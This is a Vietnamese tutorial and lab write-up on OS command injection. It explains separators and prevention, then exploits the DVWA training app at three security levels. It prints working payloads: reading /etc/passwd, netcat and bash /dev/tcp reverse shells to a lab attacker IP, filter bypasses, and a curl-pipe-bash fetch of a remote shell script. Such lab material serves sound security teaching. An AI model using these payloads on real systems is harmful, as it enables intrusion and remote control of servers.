# **OS command injection**

## **OS command injection là gì?**



- OS command injection (Shell injection) là một lỗ hổng bảo mật web cho phép kẻ tấn công thực thi các lệnh hệ điều hành OS tùy ý trên máy chủ đang chạy ứng dụng. Rất thường xuyên. kẻ tấn công có thể tận dụng lỗ hổng os command để xâm phậm các phần khác của database, khai thác các mỗi quan hệ tin cậy để chuyển cuộc tấn công sang các hệ thống khác trong tổ chức.

## **Các cách dùng để Command Injection**

- Đầu tiên cần phải xác định được hệ thống target đang hoạt động là gì, Windows hay Linux? Một số ký tự có chức năng phân tách lệnh, cho phép các lệnh nối với nhau:
  - &
  - &&
  - |
  - ||
- Các bộ tách lệnh sau chỉ hoạt động trên các hệ thống dựa trên Unix:
  - ;
  - Newline (0x0a or \n)
- \`
injected command `
- $(injected command )

## **Làm sao để ngăn ngừa Command Injection**

- Cách hiệu quả nhất để ngăn ngừa command injection là không dùng command nữa. Tức là không bao giờ gọi ra các lệnh OS từ lớp ứng dụng. Trong các trường hợp, có nhiều cách khác nhau để thực hiện chức năng cần thiết bằng cách sử dụng API trên nền tảng an toàn hơn. Nếu không thể tránh khỏi việc sử dụng các lệnh OS thì phải thực hiện xác thực đầu vào mạnh

  - Chỉ chấp nhận đối với các giá trị được phép
  - Chỉ chấp nhận đầu vào là một số
  - Chỉ chấp nhận đầu vào chỉ có ký tự chữ và số, không có ký tự đặc biệt, khoảng trắng,...

## **Lab: Khai thác lỗ hổng OS command injection trên DVWA**

1. Mức độ **Low-level-security**

   

   Ta thấy giao diện hiển thị một form text để nhập input (giá trị **IP address**). Thử kiểm tra *View Source* của trang web thì thấy rằng các giá trị input đầu vào không được **validate**
   
   

   Từ *View Source* ta thấy đây là một đoạn mã PHP thực hiện thao tác "ping" đến một địa chỉ IP do người dùng cung cấp. Tuy nhiên điểm nguy hiểm nằm ở dòng code này:
   ```php
   $cmd = shell_exec( 'ping  ' . $target );
   ```

   Do `$target` không được kiểm tra hoặc làm sạch (sanitize), nên nếu người dùng nhập một chuỗi có ký tự shell như `&`, `;`, `|`, họ có thể chèn thêm lệnh tùy ý.

   Ta thử dùng payload sau để khai thác

   ```
   127.0.0.1; uname -a
   ```

   
   > Kết quả là ta có thể biết được hệ điều hành đang sử dụng là gì.

   Tiếp tục sử dụng payload khác để đọc các file hệ thống nhạy cảm
   ```
   127.0.0.1; cat /etc/passwd
   ```
   
   
   > Kết quả điều này sẽ tiết lộ thông tin người dùng hệ thống.
   
   Tôi sẽ sử dụng 1 payload tạo ra **reverse shell** kết nối tới máy *attacker*(giả sử IP là: 192.168.100.139)

   ```
   8.8.8.8 && nc -e /bin/sh 192.168.100.139 8888
   ```
   
   

2. Mức độ **Medium-level-security**

   Kiểm tra *View Source* ta thấy được so với mức **Low**, mức **Medium** đã có bước cải thiện về mặt bảo mật, nhưng vẫn chưa an toàn tuyệt đối.

   

   Đây là một form web cho phép người dùng nhập địa chỉ IP để chạy lệnh `ping` từ phía server. Đã có cố gắng lọc lệnh độc hại như: `&&`, `;`. Xong, vì blacklist chỉ loại bỏ một vài chuỗi cụ thể, nên attacker vẫn có thể chèn lệnh bằng cách khác.

   Dùng `|` hoặc `||` để nối lệnh thay vì `;` hay `&&`:
   ```
   8.8.8.8 | nc -e /bin/sh 192.168.100.139 8888
   ```
   
   
   > Kết quả là vẫn có thể tạo 1 **reverse shell** kết nối tới máy *attacker* thành công.

3. Mức độ **High-level-security**

   Kiểm tra *View Source* ta thấy được ở mức độ này đã có bước cải thiện lớn về mặt bảo mật so với 2 mức độ trước vì blacklist đã mở rộng hơn đáng kể. Tuy nhiên có 1 chỗ đáng chú ý, đó là chỉ có '| ' (pipe + dấu cách) bị lọc, nhưng '|' đơn lẻ không bị lọc. Do đó, attacker chỉ cần bỏ dấu cách là bypass được hoàn toàn. 

   

   Viết 1 shell script reverse shell trên attacker
   ```bash
   echo 'bash -i >& /dev/tcp/192.168.100.139/8888 0>&1' > shell.sh
   python3 -m http.server 8000
   ```
   

   Mở listener:
   ```bash
   nc -lvnp 8888
   ```

   Gửi payload trên DVWA (web form):
   ```bash
   8.8.8.8|curl http://192.168.100.139:8000/shell.sh|bash
   ```
   

   > Kết quả là vẫn có thể tạo 1 **reverse shell** kết nối tới máy *attacker* thành công.

